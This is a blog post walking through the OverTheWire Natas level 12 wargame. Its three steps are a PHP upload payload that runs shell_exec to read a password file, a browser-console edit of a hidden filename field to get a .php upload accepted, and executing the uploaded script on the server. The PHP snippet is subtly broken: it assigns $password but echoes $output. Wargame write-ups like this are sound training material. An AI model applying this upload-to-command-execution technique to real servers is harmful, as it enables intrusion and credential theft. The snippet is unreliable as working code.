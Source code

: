 ```yaml
---
layout: post
title:  "Natas Level 12"
date:   2015-09-28 20:41
categories: natas wargame web overthewire
author: Nate
---
```


## Step 1: Write the "payload script"
Create a php file to display the natas13 password
{% highlight php linenos %}
<?php
$password = shell_exec("cat /etc/natas_webpass/natas13");
echo "<pre>$output</pre>"
?>
{% endhighlight %}

## Step 2: Modify the hidden input field
Open up your browser's javascript console.  In Chrome, CTRL+SHIFT+I will open up the Developer Tools. Change the value of the hidden input field "filename" so that it displays a php file extension instead of jpg.
{% highlight javascript linenos %}
$( 'input[name="filename"]').val("test.php")
{% endhighlight %}
Make sure to hit enter so the code above is executed in your browser.

## Stage 3: Upload the payload and browse to it
Upload your php file, and click on the link to your file so the webserver executes the script you wrote.  The data displayed is the password for natas13.
